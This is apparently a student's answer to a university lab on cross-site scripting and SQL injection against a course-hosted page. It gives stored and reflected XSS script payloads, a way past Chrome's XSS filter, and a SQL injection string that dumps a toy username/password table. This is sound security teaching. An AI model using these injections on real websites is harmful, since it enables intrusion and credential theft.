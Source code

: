 Lab 17
==============================

> This lab focuses on cross-site scripting (XSS) and SQL injection attacks. Form a group of 2-3 people and get a group name from me. The url for this exercise is http://cs31.cs.sjsu.edu/[groupname]/thanks.php, where [groupname] is the name of your group.

## Part 1

> First we will look at reflected XSS attacks. Go to `/thanks.php`. In the "Hero's name" field (outlined in red), enter:
> 
> ```html
> <script>alert("I am Gotham's reckoning")</script>
> ```
> 
> Try this with Firefox, Chrome, and either Internet Explorer or Safari. What is the difference in behavior between the different browsers?
> 
> While most browsers include XSS filters (or have addons like NoScript), they are not foolproof.  Experiment with the `"show search params"` button on `/thanks.php`.  Using this feature, bypass Chrome's XSS filter to change the first `h1` element on the page to be green. Describe how you did this.
> 
> Using a **stored** XSS attack, inject code into thanks.php that changes the first HTML element on the page to read "Kneel Before Zod!". JavaScript's `document.getElementById` and `innerHTML` features may be useful.

Firefox allows the "gotham's reckoning" script to execute, but Chrome's XSS Auditor blocks it. URL encoding the GET parameter, and img tag onerror both didn't work, but a stored XSS will bypass the auditor. Entering the following in the testimonial details will work:

<script>document.getElementById("gratitude").style.color = "yellow";</script>

THe content can be changed to "kneel before zod" with the following, again in the testimonial details:

<script>document.getElementById("gratitude").innerHTML = "Kneel Before Zod!"</script>

## Part 2

> Using SQL injection, get the full password list, stored in the user1 table. Note that the page `/thanks.php` does not properly sanitize its input. Describe what you did and list all username/password combinations in the table.

Arbitrary queries can be entered by closing the query and commenting out the rest with `'; (your query here); --`. Using the postresql command to view all tables shows a user1 table, and `'; SELECT * FROM user1; --` returns all entries:

| - | ----------- | -------- |
| 1 | batman      | gotham   |
| 2 | aquaman     | fish     |
| 3 | guest       | guest    |
| 4 | admin       | admin123 |
| 5 | wolverine   | harley   |
| 6 | superman    | superman |
| 7 | wonderwoman | letmein  |
| 8 | spiderman   | password |
